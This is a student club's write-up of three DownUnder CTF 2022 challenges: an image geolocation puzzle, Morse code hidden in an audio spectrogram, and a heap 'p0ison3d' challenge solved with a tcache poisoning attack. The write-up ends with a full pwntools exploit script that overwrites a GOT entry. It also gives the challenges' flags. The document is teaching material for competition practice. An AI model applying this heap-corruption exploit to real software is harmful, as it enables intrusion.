# DownUnder CTF 2022


DownUnder CTF was a 48 hour CTF that began on Friday 23rd September 2022. It was the first CTF of the year that ComSec
played, we had quite a few new members playing this one so it was a great chance for them to practice their skills.

This article contains writeups of a range of difficulty and category, so this should be a good place for new members
to see what a jeopardy style CTF looks like.



## Pre-kebab Competition 


I first began searching for the image using Google Lens the image below, is the result of that search:


As we can see, the results indicate that the building photographed is called "The Epping Club". However, the CTF asks us
to find "**Where**" it was taken from. So, we need to do more digging.

Once searching "The Epping Club" into google, we are then given the address of the location, which is shown below:


To further ensure that this is the correct location, we can see that the small billboard in the photograph appears to read "Rawson":



So, we can be almost certain that it is the correct location. Now that we know the location of the building 
photographed, we can move onto investigating **where** it was taken. To do this, we can use google maps to take a 
look at the surrounding area to figure out a possible location.



After further inspection of the image, we know it must have been taken at roof level. This due to the roof of the
building being far more present in the image. Whilst in Google Maps (ground level), the roof is less apparent at the 
same angle, which can be seen below:



Knowing this, once we take a look behind us, we are met with a huge clue:


The two signs which appear on the roof of the "Epping Hotel" are also present in the original image



So we know the flag must be: **DUCTF{EppingHotel}**

## Rage! 

Rage! was a challenge from the "Miscellaneous" category, a category in which challenges are completely random and unprecedented. Anything goes here and it is said
that they tend to require a mixture of patience, knowledge and logic to solve.
In the end Rage! was only worth 50 points as many teams solved it (420 solves, nice), but it proved to be a fun challenge to tackle no matter the skill level.  

No prior knowledge is required to be able to follow this writeup. 

### The Challenge

The only hint the challenge gives is that you end up with a string, and that string is the flag needed to complete the challenge. Additionally, 
an audio file titled 'rage.wav' is provided for you to download.



### Testing the waters

After downloading and listening to the audio it seemed like a mashup of random nonsense at first, with someone screaming "Rage" at the end. I could hear something was off
in the background, but I couldn't quite pinpoint what was wrong with it. After listening to it a few more times I decided to open it in various
audio editing software tools and play around with some settings. I started of with simple edits such as playing in reverse, at x0.5 speed, at x2.0 speed, and a few other settings, you get the idea. 

Aside from that, a quick google search led me to some ideas of how I could potentially extract a string from an audio file. Some of these ideas included
some quick "win" CLI commands (exiftool, strings, etc) to extract strings from the file, analysing the Hexadecimal data for something that may be out of place (like a hidden comment), 
and even using some python to extract metadata. All valid methods to attempt the challenge, however none of these methods bared any fruit in this case. 

Finally, I came across a video on YouTube from a user named John Hammond in which he uses Sonic Visualiser to view and analyse contents of the audio file. In the video he generates
a spectrogram of the audio and finds the flag hidden in it, as apparently this is a common way in CTFs to hide a flag for these type of challenges, so I gave it a go.  


### The solution

Thankfully checking out the file in Sonic Visualiser resulted to be the correct decision, as I could see something in the spectrogram, but I could not make out what it was. As opposed to the video, 
the flag was not in clear text writing. I decided to play around with a lot of the settings, changing things like zoom, the colour scheme, dbs, frequencies and so many other things that I did not know
what exactly they do, in hopes of seeing something that made sense within the spectrogram.

After spending a while playing around with it, our teammate ThatGuySteve pointed out it sounded like morse code in the background. 
Thanks to this it was much easier knowing what I had to look for, and stretching the spectrogram out as well as changing the colour contrast finally revealed the morse code. 
From there on it was simply a matter of manually typing the morse code into any online decoder to get the flag. 



The output of the morse code translated to "RAGINGTOWEIRDLIBIDO" which resulted to be the correct flag. Job done! 



## p0ison3d 

This was a heap based pwn challenge that scored us 428 points. This writeup expects a basic understanding of binary exploitation, and the 
some foundational knowledge of dynamic memory.



### The Challenge

Three files were available to download. The binary itself, the source code, and a libc file (version 2.27). The presence
of the libc file hinted at a heap challenge.

When given a specific libc file, it is recommended to patch the binary to use that libc file, and find a linker that is compatible
with both. This can be done using `patchelf` and [this](https://github.com/matrix1001/glibc-all-in-one) useful repository of glibc.

The 4 option menu was another big clue that this is a heap challenge. The ability to create, edit, and delete an object on the heap
is a classic setup for these types of challenges.

```
❯ ./p0ison3d
ez-notes v0.1
 v0.1 only supports up to 3 notes :(

[1] add new note
[2] read note
[3] edit note
[4] delete note
[5] quit
choice:
```

### Source Code Review

A note structure is defined at the start of the source. A note is made up of an integer, and a pointer to the note data.
The integer is used to identify whether the note is allocated. Up to three notes can be exist at a time.

```c 
typedef struct note {
    int   allocated;
    char* data;
} note_t;

note_t storage[3];
```

#### Add Note

The user can choose the index number for the note, the index is used as the position of the note in the storage array. 
The user cannot choose the size of chunk that is allocated, 128 bytes are requested, so a 144 byte chunk will be allocated.
128 bytes of data can be written into the chunk, so there is no overflow.

```c 
void add_note()
{
    int index = get_index();
    if (index < 0) {
        puts("error: bad index");
        return;
    }
    if (storage[index].allocated) {
        puts("error: index already allocated");
        return;
    }

    char* data = (char*)malloc(128);
    if (!get_data(data, 128)) {
        puts("error: unable to read input");
        return;
    }
    storage[index].data = data;
    storage[index].allocated = 1;
}
```

#### Edit Note

The edit note function lets the user select a chunk and write data into it. There is a 25 byte buffer overflow, as the 
function reads up to 153 bytes of data into the chunk.

```c
void edit_note()
{
    int index = get_index();
    if (index < 0) {
        puts("error: bad index");
        return;
    }
    if (!storage[index].allocated) {
        puts("error: index not allocated");
        return;
    }

    if (!get_data(storage[index].data, 153)) {
        puts("error: unable to read input");
        return;
    }
}
```

The delete note function is not interesting, so will be skipped. The two other relevent functions in the source code are 
`quit()` and `win()`. The reason for `quit()` will become apparent later.

```c 
void quit()
{
    puts("\ngoodbye!");
    exit(0);
}
```

```c 
void win()
{
    system("cat ./flag.txt");
}
```

So, to recap.

- 0x90 sized heap chunks can be allocated, edited, and freed.
- Up to three chunks can be allocated at a time.
- There is a heap overflow of 25 bytes when editing a chunk.

### Exploitation

Since this is libc 2.27, the tcache will be used to fulfil all the malloc requests we make. This is useful, as in earlier
versions of libc the tcache had few protections. This will let us craft an attack called a **tcache dup**.

The tcache dup is an attack that involved corrupting the heap metadata stored inside a freed chunk to create a *fake chunk*
somewhere else in memory, giving an attacker a write primitive in that area of memory. The attack requires the ability
to corrupt heap metadata (such as an overflow or a write primitive) and a location to be overwritten.

The binary does not have position independent code, and only partial RelRO. This means the Global Offset Table can be overwritten.
This is the final information needed for the attack. The plan is:

- Allocate three chunks (A, B, C)
- Free the second and third chunks (C and B). They will be linked into the 0x90 tcache bin.
- Corrupt chunk B's metadata to point to the GOT entry for `exit()`. This essentially links a section of the global offset table into the tcache.
- Allocate 1 chunk (D), the chunk will occupy the same space as the freed chunk C, as chunk C is the first entry in the 0x90 tcache bin.
- A second chunk (E), the second chunk, rather than being allocated inside the heap, will be allocated over the GOT entry for exit.
- Writing data into chunk E will overwrite the GOT entry for exit, and redirect the program to the win function.

Let's write some code! I already wrote some helper functions to make the main exploit more readable, as they take up a lot of space
I've left them out until the final exploit at the end, so if you're following along go get them!

First three chunks should be allocated, this can be done using the `create_note()` function.


```python
with conn() as p:
    chunk_A = create_note(b"A" * 120)
    chunk_B = create_note(b"B" * 120)
    chunk_C = create_note(b"B" * 120)
```



Next, delete note C and then note B. This can be done using the `delete_note()` function.

```python
    delete_note(chunk_C)
    delete_note(chunk_B)
```

The 0x90 tcache bin is now populated with the two chunks. The annotation on the right confirms that chunk C is the first entry in the tcache bin.



Next, the metadata of chunk B needs to be corrupted. Since we are overwriting from chunk A, we need to keep the chunk B size field the same, so we can 
overwrite it with itself. The following 8 bytes are the used as the tcachebins forward pointer, so this should be overwritten with the address of `exit` in
the global offset table.

```python
    edit_note(chunk_A, b"C" * (152 - 8 - 8) + pack(0x91) + pack(elf.got.exit))
```



As we can see, exit.got has been linked into the tcache bin's singly linked list. Upon allocating two more chunks, the second
will be the fake chunk in the GOT. 

```python
    index = 1
    chunk_D = create_note(b"D")
    chunk_E = create_note(pack(elf.sym.win))
```

Exit has been overwritten with the address of the `win()` function. The program will now call `win()` when it exits.



That's all that is needed! The flag is ours.




The final exploit is below.

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./p0ison3d_patched", checksec=False)
context.binary = elf
context.terminal = "kitty"

gs = '''
continue
'''

#context.log_level = "debug"

r = remote("2022.ductf.dev", 30024)

def create_note(data):
    global index
    if len(data) > 128:
        print("Data cannot be > 128 when allocating a chunk")
        exit()
    p.sendlineafter(b":\n", b"1")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.sendlineafter(b"data:\n", data)
    index += 1
    return index - 1

def read_note(index):
    p.sendlineafter(b":\n", b"2")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.recvuntil("data:\n")
    data = p.clean(1)
    return data

def edit_note(index, data):
    if len(data) > 152:
        print("Data cannot be > 152 when allocating a chunk")
        exit()
    p.sendlineafter(b":\n", b"3")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.sendlineafter(b"data:\n", data)


def delete_note(index):
    p.sendlineafter(b":\n", b"4")
    p.sendlineafter(b"index:\n", str(index).encode())

index = 0
with conn() as p:
    chunk_A = create_note(b"A" * 120)
    chunk_B = create_note(b"B" * 120)
    chunk_C = create_note(b"C" * 120)

    delete_note(chunk_C)
    delete_note(chunk_B)
    edit_note(chunk_A, b"C" * (152 - 8 - 8) + p64(0x91) + p64(elf.got.exit))

    index = 1

    chunk_D = create_note(b"D")
    chunk_E = create_note(pack(elf.sym.win))

    p.sendlineafter(b":\n", b"5")
    p.clean()
    sleep(2)
    p.sendline(b"cat /flag*")
    log.success(f"Flag: {p.recvline_contains(b'DUCTF').decode()} ") 
```


